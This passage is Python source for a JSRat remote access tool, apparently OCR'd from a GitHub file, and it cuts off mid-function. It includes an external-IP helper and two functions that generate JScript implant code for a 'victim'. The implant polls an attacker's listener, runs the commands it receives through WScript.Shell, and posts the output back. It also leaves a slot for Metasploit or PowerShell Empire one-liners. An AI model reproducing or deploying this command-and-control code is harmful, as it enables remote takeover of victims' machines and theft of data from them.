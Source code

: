 
def external_ip():
  'Check External IP using checkip.dyndns.org'
  url = 'http://checkip.dyndns.org/' # Simple External IP Check using dyndns...
  try:
    headers = { 'User-agent' : 'Python External IP Checker v0.01b' } 
    res = requests.get( url, headers=headers, timeout=30.0 )
    body = str( res.text )
    extip = re.search('\d+\.\d+\.\d+\.\d+', body)
  except:
    error("Problem resolving extrernal IP!")
    return "Problem resolving extrernal IP!"
  return extip.group()


def jsrat():
  """
      Build & Return the core JS code to operate JSRat on victim
      Essentially serve up additional JS to be evaluated by client based on need
  """
  jsrat_code = """
			while(true) {
				h = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
				h.SetTimeouts(0, 0, 0, 0);
                        	try {
					h.Open("GET","http://"""+bind_ip+":"+str(listener_port)+"""/rat",false);
					h.Send();
					c = "Enter metasploit or PowerShell Empire one liner here in the form of cmd /c [powershell oneliner]"
                            		        r = new ActiveXObject("WScript.Shell").Exec(c);
				    		var so;
				    		while(!r.StdOut.AtEndOfStream){so=r.StdOut.ReadAll()}
						p=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
				    		p.Open("POST","http://"""+bind_ip+":"+str(listener_port)+"""/rat",false);
			 	       		p.Send(so + "\\n");
                            		
                        	} catch(e1) {
                            		p=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
                            		p.SetTimeouts(0, 0, 0, 0);
					p.Open("POST","http://"""+bind_ip+":"+str(listener_port)+"""/rat",false);
                            		p.Send("[ERROR - No Output]\\n");
				}
			}
		"""
  return jsrat_code

def jsratCMD():
  """
      Build & Return the core JS code to operate JSRat on victim
      Essentially serve up additional JS to be evaluated by client based on need
  """
  jsrat_codeCMD = """
				h = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
				h.SetTimeouts(0, 0, 0, 0);
                        	try {
							h.Open("GET","http://"""+bind_ip+":"+str(listener_port)+"""/rat",false);
							h.Send();
							c = "Enter metasploit or PowerShell Empire one liner here in the form of cmd /c [powershell oneliner]"
							r = new ActiveXObject("WScript.Shell").Run(c,0,true);
                        	} catch(e1) {
                            		p=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
                            		p.SetTimeouts(0, 0, 0, 0);
					p.Open("POST","http://"""+bind_ip+":"+str(listener_port)+"""/rat",false);
                            		p.Send("[Some thing wrong !! ]\\n");
				}